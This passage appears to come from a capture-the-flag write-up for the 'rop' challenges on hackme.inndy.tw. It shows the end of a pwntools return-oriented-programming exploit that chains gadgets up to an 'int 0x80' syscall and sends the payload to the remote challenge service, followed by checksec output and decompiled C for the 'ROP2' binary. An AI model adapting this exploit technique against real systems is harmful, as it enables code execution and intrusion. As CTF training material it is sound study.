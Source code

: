 ```python
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80

print p

#rop = process("./rop")
rop = remote("hackme.inndy.tw", 7704)

rop.sendline(p)
rop.interactive()
```

## ROP2

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+5h] [ebp-33h]
  int v5; // [esp+9h] [ebp-2Fh]
  int v6; // [esp+Dh] [ebp-2Bh]
  int v7; // [esp+11h] [ebp-27h]
  int v8; // [esp+15h] [ebp-23h]
  int v9; // [esp+19h] [ebp-1Fh]
  int v10; // [esp+1Dh] [ebp-1Bh]
  int v11; // [esp+21h] [ebp-17h]
  int v12; // [esp+25h] [ebp-13h]
  int v13; // [esp+29h] [ebp-Fh]
  __int16 v14; // [esp+2Dh] [ebp-Bh]
  char v15; // [esp+2Fh] [ebp-9h]

  alarm(0x1Eu);
  v4 = ' naC';
  v5 = ' uoy';
  v6 = 'vlos';
  v7 = 'ht e';
  v8 = '\n?si';
  v9 = 'eviG';
  v10 = ' em ';
  v11 = 'ruoy';
  v12 = 'por ';
  v13 = 'iahc';
  v14 = ':n';
  v15 = 0;
  syscall(4, 1, &v4, 42);
  overflow();
  return 0;
}
```